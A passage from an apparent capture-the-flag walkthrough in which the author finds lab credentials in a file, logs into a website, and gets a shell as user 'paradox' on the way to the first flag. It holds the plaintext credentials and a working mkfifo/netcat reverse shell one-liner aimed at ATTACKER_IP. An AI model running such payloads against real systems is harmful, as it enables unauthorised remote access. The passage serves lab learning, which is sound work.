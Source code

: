 <img style="float: left;" src="screenshots/screenshot5.png">

This file contains a set of credentials:

> paradoxial.test : ShibaPretzel79

Fortunately for us, these credentials allowed us to log into the website:

<img style="float: left;" src="screenshots/screenshot6.png">

We are brought to a page that allows us to test our exploits. Perhaps we can run a reverse shell command here?

I tried a bunch of reverse shell payloads, eventually finding one that worked:

```
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP 4444 >/tmp/f
```

<img style="float: left;" src="screenshots/screenshot7.png">

We are logged in as the user **paradox**.

The **first flag** can be found in his home directory:
